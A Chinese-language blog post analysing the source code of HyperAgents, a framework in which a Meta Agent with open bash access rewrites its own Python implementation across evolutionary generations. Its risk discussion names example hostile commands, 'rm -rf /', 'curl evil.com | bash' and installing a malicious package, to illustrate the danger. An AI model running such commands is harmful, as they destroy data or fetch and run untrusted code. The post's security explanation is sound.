



> 一句话核心结论：HyperAgents 把"自指（self-referential）"和"自改进（self-improving）"这两条互相纠缠的研究路线合二为一——它让一个 **Meta Agent 读自己的源代码、读历史 eval、读兄弟节点的 diff**，然后**直接修改 Task Agent 的 Python 实现**，再用 git diff 当奖励信号驱动下一代演化。这是一个真正会"读自己源码、改自己源码、跑自己改进后的版本、再决定下一步改什么"的闭环系统。

---

## 前言：当 Agent 开始修改自己的源码

2026 年的 Agent 框架已经卷到了一个奇怪的方向：**比的不是谁能调用更多工具，而是谁能让 Agent 自己变得更强**。

回想一下过去半年我们见过的"自改进"玩法：

1. **Prompt 级自优化**：让 LLM 改自己的 system prompt，跑 benchmark 取分高的留下（OPRO、PromptAgent）。天花板很低——prompt 几行 token，再怎么改收益也有限。
2. **工具/工作流级自优化**：让 LLM 设计自己的 tool schema 或 workflow（DGM、AFlow）。好一点，但抽象层太高，模型其实是在"摆积木"，没有真正进入实现细节。
3. **记忆/RAG 级自优化**：让 Agent 改自己的检索策略（Mem0、Letta）。这是"自我优化"，但被限制在记忆这一个子系统里。
4. **微调/RL 级自优化**：真正改模型权重（TRL、Axolotl、RLHF）。改的是基座，不是 Agent 本身。

**HyperAgents（facebookresearch/HyperAgents）把这场游戏推到了一个新的极端**：让一个 LLM Agent **直接读写自己运行时的 Python 源代码**——`task_agent.py`、`meta_agent.py`、`select_next_parent.py` 全部是 Agent 可以编辑的对象。然后用 git diff 跟 eval score 的变化作为"软奖励"驱动下一轮迭代。

这听起来很疯狂，但 Meta（Facebook）Research 在 2026 年 3 月把它做出来了，并且配套发了 arXiv 论文 [2603.19461](https://arxiv.org/abs/2603.19461)，代码已经开源（[github.com/facebookresearch/HyperAgents](https://github.com/facebookresearch/HyperAgents)，2.5k⭐，最新提交 2026-05-09）。

这篇文章会从源码层面拆开这套设计：**Meta Agent 与 Task Agent 的双层结构、Darwinian 进化循环（archive + parent selection）、多领域 benchmark harness、以及"自指递归"到底危险在哪里**。

---

## 一、HyperAgents 在解决什么问题

### 1.1 定位

官方 README 的原话是：

> **HyperAgents: Self-referential self-improving agents that can optimize for any computable task**

拆开看两个关键词：

| 关键词 | 含义 | 与已有方案的差异 |
|---|---|---|
| **Self-referential（自指）** | Agent 可以修改自己的代码 | 区别于 DGM 只改 CodingAgent 子目录；HyperAgents 把"自己"扩展到 archive 中所有兄弟节点 |
| **Self-improving（自改进）** | 不需要人工标注，反馈来自 eval | 区别于监督微调（需要数据）和 RLHF（需要 reward model）；HyperAgents 用 git diff 当软监督 |
| **Any computable task（任意可计算任务）** | 横跨 7 个 domain | 区别于 SWE-Agent（只做代码）和 AutoGPT（任务无关但无改进能力） |

一句话：**它不是又一个 Agent 框架，而是一个 Agent 的"自动进化器"**——你给它一个 task domain（Polyglot、Balrog、IMO Proof、Paper Review…），它会自己跑出越来越强的 Agent 变体。

### 1.2 与同类项目的边界

| 项目 | 核心抽象 | 自改进粒度 | HyperAgents 的差异 |
|---|---|---|---|
| **AutoGPT** | 任务循环 | 无 | HyperAgents 多代进化，AutoGPT 单次执行 |
| **DGM（Darwin Godel Machine）** | CodingAgent 单类 | 改 coding_agent.py | HyperAgents 跨 domain，且改的是 task_agent + meta_agent + select_parent |
| **AFlow** | 工作流图 | 改 prompt 模板 | HyperAgents 改 Python 实现，粒度更细 |
| **SIA（hexo-ai/sia）** | Self-improving 框架 | 改任务策略 | HyperAgents 通过 git diff 自然形成 lineage tree |
| **OpenHands / SWE-Agent** | SWE 任务 | 无 | HyperAgents 是 meta-level，能产出 SWE-Agent 的"改进版" |

注意一个微妙区别：**HyperAgents 不是去解某个具体任务，而是去"造越来越会解题的 Agent"**。这跟传统 AutoML 的思路很像，但 AutoML 调的是超参数，HyperAgents 调的是 Agent 的 Python 实现。

### 1.3 真正跑起来的代价

最小实验其实只需要两条命令：

```bash
git clone https://github.com/facebookresearch/HyperAgents.git
cd HyperAgents
python generate_loop.py --domains polyglot --max_generation 5
```

但你需要：
- 一台**装好 Docker** 的 Linux 机器（每个 generation 跑一个容器，时长可达 6 小时）
- **OpenAI / Anthropic API Key**（MetaAgent 用 Claude Sonnet 4.5，TaskAgent 用 GPT-4o）
- **显存**——如果跑 `genesis_go2walking` 这种 RL domain，需要 GPU

README 里明确警告：

> ⚠️ **WARNING**: This repository involves executing untrusted, model-generated code... By using this repository, you acknowledge and accept these risks.

**执行 LLM 生成的任意代码，本身就是 HyperAgents 的核心机制**，也是它最大的风险点。

---

## 二、核心架构：双 Agent + 进化循环

### 2.1 整体拓扑



每一代（generation）做三件事：
1. **Meta Agent** 收到指令 "Modify any part of the codebase at `<repo_path>`"，然后用 bash + editor 工具**读写自己的 Python 源码**
2. 改完后用 `git diff` 把变化导出为 `model_patch.diff`
3. **Eval Harness** 把这个 patch 应用到一个 fresh container，跑 domain benchmark（Polyglot / Balrog / IMO / Search Arena 等），得到 score

下一代的起点（parent）从 archive 里通过 `select_parent` 选出——可以是 score 最高的（greedy）、最新的（latest）、按 softmax(score) 采样的（diversity-preserving），或者默认的 `score_child_prop`（考虑子节点数防止某条线被过度开发）。

### 2.2 双 Agent 角色划分



**关键代码**（来自 `meta_agent.py`）：

```python
class MetaAgent(AgentSystem):
    def forward(self, repo_path, eval_path, iterations_left=None):
        """
        A meta agent that recursively self-improves.
        """
        instruction = f"Modify any part of the codebase at `{repo_path}`."
        new_msg_history = chat_with_agent(
            instruction,
            model=self.model,
            msg_history=[],
            logging=self.log,
            tools_available='all',   # 🔑 全工具：bash + editor
        )
```

而 `task_agent.py` 截然不同：

```python
class TaskAgent(AgentSystem):
    def forward(self, inputs):
        """
        An agent that solves a given task.
        """
        domain = inputs['domain']
        instruction = f"""You are an agent.

Task input:
```
{inputs}
```

Respond in JSON format with the following schema:
<json>
{{
    "response": ...
}}
</json>"""
        new_msg_history = chat_with_agent(
            instruction,
            model=self.model,
            msg_history=[],
            logging=self.log,
            tools_available=[],  # 🔑 不用 bash/editor，domain 自己提供工具
        )
```

**这就是自指的关键**：
- **Meta Agent** 拿到 `tools_available='all'`，可以 `cat`、`sed`、`vim` 任意文件——包括它自己正在跑的代码
- **Task Agent** 拿到 `tools_available=[]`，只用 LLM 内置能力解决具体任务
- **两者的接口一模一样**（都是 `chat_with_agent`），唯一的差别是工具权限

**这种对称性让"修改对方"成为合法操作**——Meta Agent 把 `task_agent.py` 当成普通的可编辑对象，跟改 README 没区别。

### 2.3 数据流：从 patch 到 score



几个值得注意的工程细节：

1. **超时保护**：Meta Agent 跑在 `timeout 21600`（6 小时）下，防止无限循环
2. **域隔离**：`reset domains/` 把改动只限制在核心 Agent 代码里，避免污染 domain-specific harness
3. **编译验证**：`run_commands_to_check_compilation` 用 `python -c "from meta_agent import MetaAgent"` 强制 import 验证，确认改完后**至少能 import**（不验证逻辑对不对）
4. **父子血缘**：每代的 `metadata.json` 记录 `parent_genid`，形成一棵可追溯的 lineage tree

---

## 三、核心机制源码深挖

### 3.1 Meta Agent 的工具循环

`agent/llm_withtools.py` 里的 `chat_with_agent` 是整个系统的"心跳"：

```python
def chat_with_agent(
    msg,
    model="claude-4-sonnet-genai",
    msg_history=None,
    logging=print,
    tools_available=[],
    max_tool_calls=40,
):
    get_response_fn = get_response_from_llm
    new_msg_history = msg_history or []
    all_tools = load_tools(logging=logging, names=tools_available)
    tools_dict = {tool['info']['name']: tool for tool in all_tools}
    system_msg = f"{get_tooluse_prompt([tool['info'] for tool in all_tools])}\n\n"

    # 第一轮调用
    response, new_msg_history, info = get_response_fn(
        msg=system_msg + msg,
        model=model,
        msg_history=new_msg_history,
    )

    # 解析 <json>{tool_name, tool_input}</json> 格式
    tool_uses = check_for_tool_uses(response)

    # 工具循环：每轮解析一次 tool_use，最多 40 次
    while tool_uses or retry_tool_use:
        if max_tool_calls > 0 and num_tool_calls >= max_tool_calls:
            logging("Error: Maximum number of tool calls reached.")
            break
        for tool_use in tool_uses[:1]:  # 默认只取第一个 tool_use
            tool_name = tool_use['tool_name']
            tool_input = tool_use['tool_input']
            tool_output = process_tool_call(tools_dict, tool_name, tool_input)
            tool_msg = f'''<json>
    {{
        "tool_name": "{tool_name}",
        "tool_input": {tool_input},
        "tool_output": "{tool_output}"
    }}
    </json>'''
        # 把工具结果塞回 history，再调一次 LLM
        response, new_msg_history, info = get_response_fn(
            msg=tool_msg,
            model=model,
            msg_history=new_msg_history,
        )
        tool_uses = check_for_tool_uses(response)
```

这套循环跟 Claude Code 本质一样，但有三点关键差异：

| 差异点 | Claude Code | HyperAgents Meta Agent |
|---|---|---|
| 工具格式 | `tool_use`/`tool_result` 原生 block | 字符串里嵌 `<json>` 块，自己 regex 解析 |
| 上下文持久化 | 跨会话维护 project context | **每代 fresh history**（`msg_history=[]`） |
| 工具范围 | 受 Anthropic 安全策略约束 | **完全开放**——bash 可以执行任意 shell |

**最后一点是 HyperAgents 的本质风险**：Meta Agent 可以 `rm -rf /`、可以 `curl evil.com | bash`、可以 `pip install malicious-pkg`。README 警告里提到的"执行不信任代码"，指的就是这个。

### 3.2 Edit 工具：结构化的代码读写

`agent/tools/edit.py` 提供了一个类似 Anthropic 的 file editor 工具：

```python
def tool_info():
    return {
        "name": "editor",
        "description": """Custom editing tool for viewing, creating and editing files
* State is persistent across command calls
* If `path` is a file, `view` displays `cat -n`...
* Notes for using `str_replace`:
  - `old_str` must EXACTLY match one or more consecutive lines
  - if not unique, replacement will fail
""",
        "input_schema": {
            "type": "object",
            "properties": {
                "command": {
                    "enum": ["view", "create", "str_replace",
                             "insert", "undo_edit"],
                },
                "file_text": {"description": "..."},
                "old_str": {"description": "..."},
                "new_str": {"description": "..."},
                "path": {"description": "Absolute path..."},
                "view_range": {"items": {"type": "integer"}},
            },
            "required": ["command", "path"],
        }
    }
```

`str_replace` 是核心命令——Agent 给定 `old_str` 和 `new_str`，工具会做严格的字符串匹配替换（要求 `old_str` 在文件中**唯一**，否则拒绝执行）。这避免了 Agent 误改到不相关的代码块。

注意 `FileHistory` 类：

```python
class FileHistory:
    def __init__(self):
        self._history = {}
    def add(self, path, content):
        if path not in self._history:
            self._history[path] = []
        self._history[path].append(content)
    def undo(self, path):
        if path in self._history and self._history[path]:
            return self._history[path].pop()
        return None

file_history = FileHistory()  # 全局单例
```

Agent 可以用 `undo_edit` 回退上一步修改——这是一个全局的 `file_history`，**不是 per-generation**。这意味着 Meta Agent 改错了一个文件，可以回滚；但如果回滚后 eval 变差，archive 也不会自动回滚，需要靠下一代用 `select_parent` 选回父代。

### 3.3 Parent Selection：5 种策略

`utils/gl_utils.py` 里的 `select_parent` 实现了 5 种父代选择策略：

```python
def select_parent(archive, output_dir, domains, method="best"):
    # 1. 收集所有有效候选的 score（跨 domain 平均）
    candidates = {}
    for genid in archive:
        valid_parent = get_node_metadata_key(output_dir, genid, "valid_parent") \
            if not is_starting_node(genid) else True
        if not valid_parent:
            continue
        per_domain_scores = []
        for dom in domains:
            score = get_saved_score(dom, output_dir, genid,
                                    split="val", type="max")
            per_domain_scores.append(score)
        if per_domain_scores and all(score is not None for score in per_domain_scores):
            candidates[genid] = sum(per_domain_scores) / len(per_domain_scores)

    # 2. 计算每个 genid 的子节点数
    child_counts = {genid: 0 for genid in candidates}
    for genid in archive:
        parent = get_parent_genid(output_dir, genid)
        if parent in child_counts:
            child_counts[parent] += 1

    # 3. 按策略选
    if method == "random":
        return random.choice(list(candidates.keys()))
    elif method == "latest":
        return list(candidates.keys())[-1]
    elif method == "best":
        return max(candidates, key=candidates.get)
    elif method == "score_prop":
        # softmax over score（保留探索）
        scores = [candidates[c] for c in candidates]
        mid_point = np.mean(sorted(scores, reverse=True)[:3])
        scores = [1 / (1 + math.exp(-10 * (score - mid_point))) for score in scores]
        return random.choices(commits, weights=scores / sum(scores))[0]
    elif method == "score_child_prop":
        # score + 子节点数惩罚（防过度开发某条线）
        scores = [...]  # 同上
        penalties = [math.exp(-(child_counts[commit]/8)**3) for commit in commits]
        combined = [s * p for s, p in zip(scores, penalties)]
        return random.choices(commits, weights=combined / sum(combined))[0]
```

**关键观察**：`score_child_prop` 是默认策略，它的核心公式是：

```
P(parent) ∝ softmax(score) × exp(-(children/8)³)
```

`sigmoid(-10 * (score - mid_point))` 把 score 转成 0~1 的概率（`mid_point` 取 top-3 平均，保证竞争激烈时高分离），再乘以子节点数惩罚。**这条公式的本质是"鼓励多样性"**——一个已经被开发 8 次的分支，会因为 `(8/8)³ = 1` 导致 `exp(-1) ≈ 0.37` 的惩罚，而新分支获得更高概率。

这就是为什么 HyperAgents 的 archive 长得像一棵树而不是一条链——`edit_select_parent=True` 时 Meta Agent 还可以**修改 `select_next_parent.py` 本身**（更疯狂的设计），让"如何选父代"也成为可优化的对象。

### 3.4 Archive 数据结构

`ensemble.py` 揭示了 archive 的存储格式：

```python
archive_path = os.path.join(generate_output_dir, "archive.jsonl")
archive_data = load_archive_data(archive_path, last_only=True)
archive_genids = archive_data.get("archive", [])
best_score, best_genid = -1, None
for genid in archive_genids:
    score = get_score(domain, generate_output_dir, genid, split=split)
    if score is not None and score > best_score:
        best_score, best_genid = score, genid
```

**archive 是一个 `genid` 列表**（不是树，但隐式通过 `parent_genid` 形成树）。`ensemble.py` 在推理时直接挑 archive 里 score 最高的那个 genid 的 Task Agent 来用——这意味着 **HyperAgents 训练完的产物不是单个 Agent，而是一组 Agent 的 ensemble**。

这种设计的本质是：**HyperAgents 把"训练"和"推理"统一在了同一个 codebase**——训练产物（archive 里的 N 个 Task Agent）直接可以被 ensemble 起来当 production 模型用，不需要再训练一个单独的 SFT/RL 模型。

---

## 四、多 Domain Harness：7 个评测场

HyperAgents 不是一个 toy benchmark，它配套了 7 个真实可跑的 domain，每个都有自己的 harness：

| Domain | 任务类型 | 评测方式 | 代表规模 |
|---|---|---|---|
| **polyglot** | SWE 多语言代码修复 | Docker container 跑测试 | SWE-bench 风格 |
| **balrog_babyai** | 网格导航 | NetHack-style RL 环境 | babyai_text |
| **balrog_babaisai** | 文本推理 | babaisai 环境 | textworld 类 |
| **balrog_minihack** | Roguelike | MiniHack 环境 | NetHack 简化版 |
| **balrog_nle** | NetHack | 完整 NetHack Learning Environment | NLE |
| **genesis_go2walking** | 机器人 RL | Genesis 物理仿真 | Go2 四足机器人 |
| **genesis_go2hop** | 机器人 RL | 跳跃任务 | 同上 |
| **imo_proof** | 数学证明 | LLM-as-judge 自动评分 | IMO 风格 |
| **paper_review** | 论文评审 | AI Reviewer baseline | NeurIPS 风格 |
| **search_arena** | 检索质量 | 多源检索融合 | ChatBot Arena 风格 |

```bash
# 跑单个 domain
python generate_loop.py --domains polyglot --max_generation 5

# 跑多 domain（同时优化多个）
python generate_loop.py --domains balrog_babyai balrog_nle --max_generation 10
```

每个 domain 的 harness 都是独立的——Meta Agent 改 `task_agent.py` 时如果不小心改了 `domains/polyglot/`，系统会用 `filter_patch_by_files` 把这部分过滤掉，**保护 domain-specific harness 不被改坏**。

这种设计带来一个有趣的副作用：**Meta Agent 优化的是"通用能力"，不是特定 domain 的过拟合技巧**。如果你在 polyglot 上跑了 10 代，把 Task Agent 改成"专门调 OpenAI API 做 SWE-bench"，这个改动会在 balrog 上完全失效——但 archive 机制会保留 polyglot 专精的版本和 balrog 专精的版本，ensemble 时各自发挥。

---

## 五、优缺点分析

### 5.1 优点

| 维度 | 评分 | 说明 |
|---|---|---|
| **理论创新** | ⭐⭐⭐⭐⭐ | 真正实现"自指自改进"——Meta Agent 可以修改自己运行时代的码，不是抽象概念 |
| **架构清晰** | ⭐⭐⭐⭐ | 双 Agent（Meta + Task）+ Archive + Parent Selection，分层清楚 |
| **通用性** | ⭐⭐⭐⭐⭐ | 7+ domain 跨 RL/SWE/Reasoning/Retrieval，不是单一任务 |
| **实验规模** | ⭐⭐⭐⭐ | 6h/generation × 多代 = 可观的算力投入，有真实数据 |
| **开源完整度** | ⭐⭐⭐⭐ | 论文 + 代码 + experiment logs（Google Drive 链接）齐全 |
| **可复现性** | ⭐⭐⭐ | Docker container 保证隔离，但依赖 OpenAI/Anthropic API |
| **风险控制** | ⭐⭐ | README 警告 + timeout，但 `bash` 工具仍可执行任意代码 |

### 5.2 缺点与风险

| 维度 | 评分 | 说明 |
|---|---|---|
| **安全性** | ⚠️ 极高 | LLM 生成的 bash 命令可执行 `rm -rf`、`curl \| bash`，README 明示风险 |
| **算力成本** | ⚠️ 极高 | 每个 generation 6h 超时 + Docker container + Claude/GPT API 调用 = 单次实验数千美元 |
| **收敛速度** | ⚠️ 不可控 | 论文显示有时需要 10+ 代才有明显改进，早期可能完全无效 |
| **可解释性** | ⚠️ 差 | Meta Agent 改的代码不附带 reasoning，archive 里只有 score |
| **维护负担** | ⚠️ 高 | archive 长到 50+ genid 后 `select_parent` 变慢，`child_counts` 维护复杂 |
| **依赖深度** | ⚠️ 高 | 强依赖 litellm + Docker + 7 个 domain-specific 库，任意一个崩整个系统停 |
| **对比公平性** | ⚠️ 中 | 默认 `--parent_selection score_child_prop` 偏向多样性，与纯 greedy baseline 对比时占优不显然 |

### 5.3 适用 vs 不适用

**适合的场景：**
- 学术研究：想探索"自指 AI"的可行性边界
- 长期优化：愿意花 100+ GPU-hour 跑 20+ 代，换一个特定 domain 的 SOTA
- 多 Agent 系统：已经有 archive 概念，想做自动化 Agent 工厂

**不适合的场景：**
- 生产环境直接部署：6h/generation 太慢，且 Meta Agent 可能写出破坏性代码
- 小规模项目：投入产出比不划算，单个 prompt 优化（OPRO）可能就够
- 安全敏感场景：bash 工具无沙箱，等于让 LLM 拥有 root 权限

---

## 六、与同类项目的设计对比

### 6.1 vs DGM（Darwin Godel Machine）

| 维度 | DGM | HyperAgents |
|---|---|---|
| **改的代码范围** | 只改 `coding_agent.py` | 改 `task_agent.py` + `meta_agent.py` + `select_next_parent.py` + ensemble |
| **Domain 范围** | 仅 SWE（Polyglot） | 7+ domain（Polyglot/Balrog/IMO/RL/Search...） |
| **Self-reference** | CodingAgent 可以改自己的 prompt + 工具列表 | MetaAgent 改 TaskAgent 实现 + 改父代选择策略 |
| **回溯机制** | 无显式回滚，靠 archive | `FileHistory.undo_edit` 单文件回滚；archive 自然回溯 |
| **最大创新** | 单 domain 内进化 | 跨 domain + 改"如何改"的元递归 |

**一句话差异**：DGM 是"Agent 进化"，HyperAgents 是"进化本身的进化"。

### 6.2 vs AFlow（Automated Workflow）

| 维度 | AFlow | HyperAgents |
|---|---|---|
| **抽象层** | 工作流图（节点+边） | Python 源码 |
| **修改粒度** | 节点 prompt + 边的连接 | 任意函数、import、类 |
| **搜索空间** | 受限（节点固定） | 极大（Python 几乎无限） |
| **收敛速度** | 快（小时级） | 慢（天级） |
| **可解释性** | 高（图可视化） | 低（diff diff diff） |

**AFlow 更务实，HyperAgents 更前沿**——如果你想立刻看到效果选 AFlow；如果你想探索 Agent 自身的天花板，选 HyperAgents。

### 6.3 vs SIA（hexo-ai/sia，Self-Improving Agent）

| 维度 | SIA | HyperAgents |
|---|---|---|
| **自改进对象** | 策略/方法（方法论级） | Python 源码（实现级） |
| **是否需要基座训练** | 否（在线策略迭代） | 否（纯 prompt-level + git diff） |
| **Domain 适配性** | 通用 | 通用但需 harness 配套 |
| **回溯** | 无（每次独立） | archive 树状血缘 |
| **开源成熟度** | 中（1.7k⭐，新） | 中（2.5k⭐，新） |

**两者最像的对比**：都在做"自改进"，但 SIA 改的是"思考方式"，HyperAgents 改的是"思考工具的实现"。

---

## 七、趋势：自指 AI 的未来

HyperAgents 不是一个"完成态"项目，它是**自指 AI 这条研究路线上的一个里程碑**。从 2026 年的视角看，这条路线有四个清晰的演进方向：

1. **更安全的执行环境**：用 gVisor / Firecracker 替代 Docker，把 LLM 生成代码的权限限制到 syscall 级。
2. **更高效的反馈信号**：当前用 eval score 当奖励，是稀疏且昂贵的；未来会用 LLM-as-judge 或在线 RLHF 替代。
3. **更多元的修改空间**：从 Python 扩展到 DSL（领域特定语言），从单文件扩展到分布式 Agent 网络。
4. **可解释的进化**：强制 Meta Agent 输出 diff 的 reasoning，让 archive 不只是 score 列表，也是可读的进化故事。

但也有一类根本性的担忧：**自指系统是否会出现不可控的"自我加速"**？HyperAgents 论文里有一张示意图——agent 改 agent、agent 改 agent 的 agent——这种递归到底在哪一层停下来？如果没有理论保证，今天还只是改 Python 源码，明天可能就是改 LLM 权重、后天直接改训练数据。

**HyperAgents 自己就承认了这一点**——README 里专门有一节 "Safety Consideration"，把代码生成的风险写在最显眼的位置。这是一种态度：研究自指 AI，但**不回避自指 AI 的风险**。

---

## 八、对你（工程师/研究者）的启发

如果你是 **Agent 框架作者**：
- HyperAgents 揭示了一个被低估的设计点：**"Agent 的工具权限"决定了它能自改进到什么程度**。给 bash + editor 就开启了源码级自改进；只给 search + read 只能做 prompt 级。
- archive + parent selection 是 Agent "版本控制"的雏形——当你的 Agent 框架开始迭代 v1/v2/v3 时，考虑用 HyperAgents 的 `score_child_prop` 策略做 backward-compatible selection。

如果你是 **AI 应用开发者**：
- 不要试图复现 HyperAgents 的全部机制，但可以借鉴**双层结构**：你的业务 Agent（TaskAgent）+ 你的 prompt 优化 Agent（MetaAgent）。让一个 LLM 监控另一个 LLM 的失败 case，自动提议 prompt 改进。
- 即使不上 git diff 这么重，至少做到"每次 prompt 改动都带一个可验证的 eval metric"——这是 HyperAgents 给所有 AI 应用开发者的最朴素启示。

如果你是 **研究者**：
- HyperAgents 的 lineage tree + eval score 数据集是**罕见的真实自指 AI 演化数据**。可以分析"什么样的代码改动会被后续代继承"，"什么样的失败模式会让 lineage 终止"。
- 论文里没展开的 `edit_select_parent=True`（Meta Agent 改自己的父代选择策略）是更激进的元递归——这是接下来 6~12 个月最有可能出突破的方向。

---

## 尾声：Agent 进化的奇点还远吗？

回到开头的反问：**"Agent 开始修改自己的源码"到底意味着什么？**

HyperAgents 给出的答案是：在受控的 Docker container 里、用 git diff 做软监督、靠 archive 限制爆炸半径。这套机制今天还很粗糙——6h/generation 的超时、bash 工具的开放性、eval score 的稀疏反馈，每一项都是限制。

但它**确实跑起来了**。在 Polyglot、Balrog、IMO Proof 等多个 domain 上，HyperAgents 都在 5~10 代内产生了 score 显著优于初始版本的 archive。这是历史上第一次，"自改进"从论文概念变成可运行的 GitHub 项目。

下一个问题是：**当 archive 里的 Agent 开始主动把"如何修改源代码"这件事本身也写入 archive 时，会发生什么？** HyperAgents 已经留了 `edit_select_parent=True` 这个开关。代码已写好，只等下一个敢按回车的研究者。

---

## 参考资料

- **项目主页**：[github.com/facebookresearch/HyperAgents](https://github.com/facebookresearch/HyperAgents)（2.5k⭐，最新提交 2026-05-09）
- **论文**：[arxiv.org/abs/2603.19461](https://arxiv.org/abs/2603.19461) —— Jenny Zhang 等，2026
- **Meta AI Blog**：[ai.meta.com/research/publications/hyperagents/](https://ai.meta.com/research/publications/hyperagents/)
- **对比项目**：
  - DGM（Darwin Godel Machine）—— 单 domain 进化的前身思路
  - AFlow（Automated Workflow）—— 工作流图级别的自优化
  - SIA（hexo-ai/sia）—— 方法论级别的 Self-Improving 框架
- **相关阅读**：
  - [Hexo + Next 主题 Mermaid 配置](https://github.com/xuqi2024/xuqi2024.github.io) —— 本博客的 Mermaid 渲染方法

> 本文使用的所有代码片段均来自 facebookresearch/HyperAgents 仓库的 main 分支（commit 2026-05-09），遵循 CC BY-NC-SA 4.0 协议。